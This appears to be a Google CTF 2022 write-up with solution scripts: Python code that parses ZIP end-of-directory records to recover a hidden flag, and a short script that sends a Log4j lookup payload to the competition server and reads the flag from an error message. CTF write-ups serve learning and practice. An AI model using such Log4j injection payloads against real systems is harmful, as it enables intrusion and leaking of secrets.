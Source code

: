 ## APPNOTE.TXT
```python
from struct import unpack

data = open("dump.zip", "rb").read()

for i in range(len(data) - 3):
  sig = unpack("<I", data[i:i+4])[0]
  if sig == 0x06054b50:
    sig, this, disk, num_cd, tot_cd, sz_cd, off_cd, comlen = unpack("<IHHHHIIH", data[i:i+22])
    com = data[i+22:i+22+comlen]
    i = off_cd
    sig = unpack("<I", data[i:i+4])[0]
    if sig == 0x02014b50:
      fnamelen = unpack("<H", data[i+28:i+30])[0]
      rel_off = unpack("<I", data[i+42:i+46])[0]
      fname = data[i+46:i+46+fnamelen]
      i = rel_off
      sig = unpack("<I", data[i:i+4])[0]
      if sig == 0x04034b50:
        fnamelen = unpack("<H", data[i+26:i+28])[0]
        extralen = unpack("<H", data[i+28:i+30])[0]
        fname2 = data[i+30:i+30+fnamelen]
        comprlen = unpack("<I", data[i+18:i+22])[0]
        compr = data[i+30+extralen+fnamelen:i+30+extralen+fnamelen+comprlen]
        print("%s" % (compr.decode()), end="")
```
### Another Solution
```python
#!/usr/bin/env python3

from os import system

with open('dump.zip', 'rb') as f: zf = f.read()[::-1]

while True:

    zfnew = zf.replace(b'\x06\x05\x4b\x50', b'\0\0\0\0', 1)
    if zfnew == zf: break
    zf = zfnew
    with open('dump-ed.zip', 'wb') as f: f.write(zf[::-1])
    system('unzip -o dump-ed.zip >/dev/null 2>&1')

system('cat flag*')
print()
```
## Log4j
```python
import requests
import re

URL = "https://log4j-web.2022.ctfcompetition.com/"

payload = "${java:${java:FLAG}}"
r = requests.post(URL, data={"text": payload})
output = re.search(r"(?<=to lookup java:).*(?=java.lang.IllegalArgumentException:)", r.text)
print(output.group(0))
```
### Referensi
#log4j
- https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution
- https://book.hacktricks.xyz/pentesting-web/deserialization/jndi-java-naming-and-directory-interface-and-log4shell
- https://github.com/FarhadAlimohammadi-dir/Google-CTF-2022-Writeups
- https://www.youtube.com/watch?v=0-abhd-CLwQ